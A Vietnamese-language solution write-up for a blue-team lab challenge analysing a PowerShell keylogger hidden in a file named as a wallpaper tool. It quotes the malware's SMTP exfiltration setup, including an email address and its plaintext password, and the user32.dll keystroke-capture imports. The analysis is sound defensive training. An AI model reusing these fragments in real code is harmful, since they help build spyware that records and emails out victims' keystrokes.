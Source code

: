 ## Description
> A suspicious PowerShell script was found on one of our endpoints. Can you work out what it does?
## Link challenge
> https://blueteamlabs.online/home/challenge/powershell-analysis-keylogger-9f4ab9a11c
## Solution
***Câu 1 : What is the SHA256 hash value for the PowerShell script file?***
- Sau khi tải file về và giải nén em thu được 1 tệp tên `HDWallpaperEngine.txt` bên trong chứa các lệnh thực thi powershell
```
┌──(kali㉿kali)-[~/Downloads]
└─$ sha256sum HDWallpaperEngine.txt 
e0b7a2ad2320ac32c262aeb6fe2c6c0d75449c6e34d0d18a531157c827b9754e  HDWallpaperEngine.txt
```
> A : e0b7a2ad2320ac32c262aeb6fe2c6c0d75449c6e34d0d18a531157c827b9754e

***Câu 2 : What email address is used to send and receive emails?***
- Quan sát nội dung bên trong 
```
$TimesToRun = 2
$RunTimeP = 1
$From = "chaudhariparth454@gmail.com"
$Pass = "yjghfdafsd5464562!"
$To = "chaudhariparth454@gmail.com"
$Subject = "Keylogger Results"
$body = "Keylogger Results"
$SMTPServer = "smtp.mail.com"
$SMTPPort = "587"
$credentials = new-object Management.Automation.PSCredential $From, ($Pass | ConvertTo-SecureString -AsPlainText -Force)
```
- Có thể thấy địa chỉ email là chaudhariparth454@gmail.com
> A : chaudhariparth454@gmail.com
***Câu 3 : What is the password for this email account?***
- Tương tự tại dòng thứ 4 
> A : yjghfdafsd5464562!
***Câu 4 : What port is used for SMTP?***
- Kết quả nằm ở dòng thứ 9 : `$SMTPPort = "587"`
> A : 587
***Câu 5 : What DLL is imported to help record keystrokes?***
- Tại đây `function Start-KeyLogger($Path="$env:temp\keylogger.txt") `, `$env:temp:` Biến môi trường này trỏ đến thư mục tạm thời của hệ thống và `keylogger.txt`: Tên tệp văn bản sẽ lưu trữ các phím bấm.
- Ta lại thấy
```
 # Signatures for API Calls
  $signatures = @'
[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)] 
public static extern short GetAsyncKeyState(int virtualKeyCode); 
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int GetKeyboardState(byte[] keystate);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MapVirtualKey(uint uCode, int uMapType);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
'@
```
- [DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)]: Khai báo sử dụng hàm từ user32.dll, tự động chọn CharSet.
- public static extern short GetAsyncKeyState(int virtualKeyCode);: Khai báo hàm trả về kiểu short (số nguyên ngắn) và nhận một tham số virtualKeyCode kiểu int (số nguyên).
- Chức năng: Hàm này kiểm tra trạng thái của một phím ảo (virtual key) cụ thể, cho biết phím đó có đang được nhấn hay không.
> A : user32.dll
***Câu 6 : What directory is the generated txt file put in?***
- Như đã giải thích ở trên tệp sẽ được lưu vào temp
> A : temp

